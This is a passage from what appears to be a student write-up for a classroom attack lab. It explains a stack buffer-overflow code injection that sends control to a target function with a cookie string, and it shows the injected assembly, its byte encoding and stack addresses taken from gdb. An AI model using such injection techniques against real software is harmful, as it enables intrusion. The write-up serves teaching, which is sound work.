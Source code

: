 **This solution causes a SegFault in the validation code, but does print "Valid solution for level2."**

<br>

## Phase 3: CTARGET Level 3

### Task:
- When `getbuf` returns, we want to pass control to `touch3` instead of returning to `test`.
- We also want to pass a string representation of our cookie as argument for `touch3`.

### What we need:
- We need to store the cookie string onto the stack, and to store the address of the cookie string to `%rdi` to pass as argument to `touch3`.
- We also need to store the address of `touch3` onto the stack.

### What to do:
- Note that `hexmatch` will allocate a large stack frame for itself, so if we were to store the cookie string in the `getbuf` stack frame, it would get overwritten after the `getbuf` stack frame gets deallocated and the `hexmatch` stack frame gets allocated. Thus, we have to store the cookie string above the `getbuf` stack frame, inside the stack space for `test`.
- We will use a `mov` instruction to store the address of the cookie string to `%rdi`.
- We will use a `push` instruction to push the address of `touch3` onto the stack.

<br>

The code we want to inject:
```c
    movq    $0x5561dca8, %rdi       # address of cookie string
    pushq   $0x4018fa               # push address of touch3 onto stack
    ret
```
- *Note: To compute the address of the cookie string, we use `gdb` to find the value of stack pointer after the `getbuf` stack frame is deallocated. See stack structure below.*

<br>

We can get the byte representation of the above code:
```c
ctarget.l3.code.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   b:	68 fa 18 40 00       	pushq  $0x4018fa
  10:	c3                   	retq   
```

<br>

Our stack structure would be as follows:

<center>
